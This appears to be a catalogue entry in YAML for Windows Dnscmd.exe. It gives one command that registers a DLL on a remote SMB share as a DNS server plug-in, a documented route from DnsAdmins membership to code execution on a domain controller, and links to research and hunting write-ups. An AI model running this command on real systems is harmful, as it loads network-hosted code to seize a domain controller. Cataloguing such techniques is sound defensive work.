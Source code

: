 ```yaml
---
Name: Dnscmd.exe
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
    Description: 'Adds a specially crafted DLL as a plug-in of the DNS Service.'
Full Path:
  - c:\windows\system32\Dnscmd.exe
  - c:\windows\sysWOW64\Dnscmd.exe
Code Sample: []
Detection: []
Resources:
  - https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
  - https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
  - https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
  - https://twitter.com/Hexacorn/status/994000792628719618
  - http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html
Notes: |
    This command must be run on a DC by a user that is at least a member of the DnsAdmins group. See the refference links for DLL details.
    Thanks to Shay Ber - ?, 
    Dimitrios Slamaris - @dim0x69, 
    Nikhil SamratAshok, 
    Mittal - @nikhil_mitt
---
```

